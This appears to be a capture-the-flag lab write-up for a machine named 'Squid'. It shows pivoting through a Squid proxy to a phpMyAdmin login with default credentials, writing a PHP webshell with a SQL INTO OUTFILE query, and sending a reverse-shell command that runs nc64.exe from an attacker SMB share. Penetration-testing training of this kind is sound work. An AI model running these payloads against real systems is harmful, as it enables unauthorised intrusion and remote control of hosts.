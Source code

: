 # Squid

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.233.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 15:29 +08
Nmap scan report for 192.168.233.189
Host is up (0.17s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
3128/tcp open  squid-http
```

Only one port is open.

### Squid Proxy --> FoxyProxy

The port was a Squid Proxy instance. When visited in a browser, this is all we see:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Since this is a proxy service, it might be the gateway that we need to access the services running on the machine itself. To scan the machine, we can include this line in our `/etc/proxychains4.conf` file:

```
socks5 192.168.233.189 3128
```

Afterwards, we can use `proxychains` to scan the machine again to find more ports that are open,  but this takes far too long. Instead, we can use FoxyProxy to attempt to view some interesting ports. I tried with a few ports like 80, 443 and 8080 for websites, and found a service on port 8080.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Default Creds --> SQL RCE

There's a PHPMyAdmin instance present on the page, and we can login using `root` as the username with no password.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Since this is already the administrative interface, we can get a shell by creating a database and then executing some SQL commands in it via the web SQL interpreter.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can select this database and head to the QUERY tab:

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

We can test it with any query and see that it is indeed processing SQL queries:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Since we can submit queries, we can also write files into the file system of the machine. I wanted to write a basic PHP webshell, but this means we need to know the webroot file. Very conveniently, there's a `phpinfo` page on the main Wampserver page.&#x20;

There, we can find the `DOCUMENT_ROOT`:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can then use this query to write a webshell onto the machine:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' into outfile "C:\\wamp\\www\\backdoor.php"
```

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can test our RCE:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Great! No all we need to do is get a reverse shell as the user. By setting up a SMB server on our machine with `nc64.exe` within the directory, we can send this to get a shell:

```
http://192.168.233.189:8080/backdoor.php?cmd=\\192.168.45.161\share\nc64.exe+-e+cmd.exe+192.168.45.161+4444
```

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

There is no privilege escalation, because we have successfully gotten a SYSTEM shell.&#x20;

{% hint style="info" %}
This machine was changed since I last did it in 2022. My older writeups show that the machine was running as LOCAL SYSTEM instead of the SYSTEM user.

The old box would give us intial access with the LOCAL SYSTEM user without any privileges, and we had to use either schtasks or FullPowers.exe to give us a shell with the full privileges of a LOCAL SYSTEM user that includes SeImpersonatePrivilege, which we can then use PrintSpoofer.exe or JuicyPotato.exe to get a SYSTEM shell.
{% endhint %}

